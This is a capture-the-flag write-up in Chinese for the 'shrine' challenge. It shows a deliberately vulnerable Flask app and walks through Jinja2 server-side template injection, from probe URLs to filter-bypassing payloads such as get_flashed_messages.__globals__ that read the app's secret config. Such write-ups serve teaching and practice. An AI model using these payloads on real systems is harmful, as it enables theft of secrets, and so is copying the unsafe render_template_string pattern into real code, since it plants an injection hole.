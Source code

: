 # shrine

## 解题思路：

- 打开网页，看到如下一串代码：

    ```python
    <body>import flask
    import os

    app = flask.Flask(__name__)

    app.config['FLAG'] = os.environ.pop('FLAG')


    @app.route('/')
    def index():
        return open(__file__).read()


    @app.route('/shrine/<path:shrine>')
    def shrine(shrine):

        def safe_jinja(s):
            s = s.replace('(', '').replace(')', '')
            blacklist = ['config', 'self']
            return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

        return flask.render_template_string(safe_jinja(shrine))


    if __name__ == '__main__':
        app.run(debug=True)
    ```

- 注意到里面有 `Flask` , 那基本就是SSTI了，先想到模板注入的第一步：`{{7*7}}`

    读代码，发现这个注入是在 `/shrine/..` 目录下进行的，那么构造url：

        http://111.198.29.45:50688/shrine/%7B%7B7*7%7D%7D

    服务器回应： `49` ，说明注入成功。

    按照[这里的说法](https://www.dazhuanlan.com/2019/12/19/5dfaeb8cf31c7/)，用图里的检验方法一步一步测试具体是哪种注入：

    先使用 `{{7*'7'}}` :

        http://111.198.29.45:50688/shrine/%7B%7B7*'7'%7D%7D

    服务器回应：`7777777` ，说明打印了七遍 `'7'` ，按照说明，可能是jinja+flask，或者twig+flask，再考虑到源码中出现过的 `jinja` ，可以确定是 jinja+flask。

    接下来就构造payload，之前的SSTI注入模板可以直接拿来试试：

    ```python
    {{''.__class__.__mro__[2].__subclasses__()}}
    ```

    我们期待的返回情况应该是超长的一串基类名称，但是服务器回复：

        <built-in method __subclasses__ of type object at 0x7f1209dfbc00>

    我们发现这个 `__subclasses__` 后面的括号根本没有被读进去，那看来就是 `()` 本身被过滤了。

    只好想其他办法，看了大佬的笔记之后学到了 `get_flashed_messages` 函数 ：
    
    - 当代码中有类似 `app.config['FLAG'] = os.environ.pop('FLAG')` 等带config的代码时，可以直接用 `{{config['FLAG']}}` 或者 `{{config.FLAG}}` 得到flag([参考资料](https://www.cnblogs.com/20175211lyz/p/11425368.html)).

    - 如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current_app等）。

        - 例如：

        ```python
        {{url_for.__globals__['current_app'].config.FLAG}}

        {{get_flashed_messages.__globals__['current_app'].config.FLAG}}

        {{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
        ```

- 构造payload ： `{{get_flashed_messages.__globals__['current_app'].config.FLAG}}` ,成功拿到flag。

## 参考资料：

- [flask模板注入方法详解](https://blog.csdn.net/iamsongyu/article/details/83109772)

- [CTF SSTI(服务器模板注入)](https://www.cnblogs.com/20175211lyz/p/11425368.html)

- [应对各种常见过滤的绕过方法](https://www.cnblogs.com/zaqzzz/p/10263396.html)